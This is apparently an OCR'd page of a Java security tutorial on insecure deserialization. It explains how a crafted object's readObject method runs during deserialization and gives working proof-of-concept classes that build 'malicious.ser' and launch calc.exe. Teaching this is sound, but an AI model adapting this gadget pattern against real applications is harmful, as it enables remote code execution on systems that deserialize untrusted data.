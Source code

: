 **What Happens in the Exploited Scenario**

- **Malicious Object**: The serialized data in "malicious.ser" actually contains an instance of `MaliciousClass`, not `VulnerableClass`.
- **Deserialization**: When `ois.readObject()` is called, it reconstructs the `MaliciousClass` object.
- **Type Casting**: Although the object is cast to `VulnerableClass`, it is actually an instance of `MaliciousClass`. Due to Java's dynamic nature, the cast does not prevent the `readObject` method of `MaliciousClass` from being executed.
- **Execution of Malicious Code**: The `readObject` method of `MaliciousClass` is invoked during deserialization, executing the malicious code (`Runtime.getRuntime().exec("calc.exe")`).

**3º MaliciousClass.java** - The attacker creates this class to exploit the deserialization vulnerability:

```
package eLearn;

import java.io.Serializable;
import java.io.ObjectInputStream;
import java.io.IOException;

public class MaliciousClass implements Serializable {
    private static final long serialVersionUID = 1L;

    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ois.defaultReadObject();
        // Malicious code execution using ProcessBuilder
        ProcessBuilder processBuilder = new ProcessBuilder("calc.exe"); 
        processBuilder.start();
    }
}
```

**4º SerializeMaliciousObject.java -** The attacker serializes `MaliciousClass` and creates "malicious.ser":

```
package eLearn;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.io.IOException;

public class SerializeMaliciousObject {
	public static void main(String[] args) {
		MaliciousClass maliciousObject = new MaliciousClass();
		try (ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("malicious.ser"))) {
			oos.writeObject(maliciousObject);
		} catch (IOException e) {
			e.printStackTrace();
		}
	}
}

```
